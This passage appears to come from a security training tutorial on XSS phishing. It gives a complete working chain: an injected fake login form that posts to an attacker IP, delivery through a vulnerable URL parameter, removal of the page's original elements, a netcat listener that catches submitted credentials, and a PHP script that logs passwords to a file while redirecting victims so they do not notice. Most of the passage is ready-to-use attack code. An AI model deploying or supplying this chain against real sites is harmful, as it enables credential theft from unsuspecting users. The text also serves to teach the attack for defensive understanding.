 ```javascript
document.write('<h3>Please login to continue</h3><form action="http://OUR_IP"><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Inject this JavaScript code using the discovered XSS vulnerability. For example:

```
http://SERVER_IP/phishing/index.php?url=...PAYLOAD...
```

### Removing Original Elements

To make the page more convincing, remove the original `url` field using JavaScript:

```javascript
document.getElementById('urlform').remove();
```

Add this to your payload after the `document.write` function:

```javascript
document.write('<h3>Please login to continue</h3><form action="http://OUR_IP"><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Comment out remaining HTML using an opening comment tag (`<!--`) after your payload:

```html
...PAYLOAD... <!-- 
```

This ensures the injected login form appears alone, giving the impression that logging in is required.

## Credential Stealing

Start a netcat listener to capture credentials:

```bash
sudo nc -lvnp 80
```

When a victim submits the form, you will capture their credentials in the request:

```
GET /?username=test&password=test&submit=Login HTTP/1.1
```

To avoid raising suspicion, use a PHP script to log credentials and redirect victims back to the original page:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
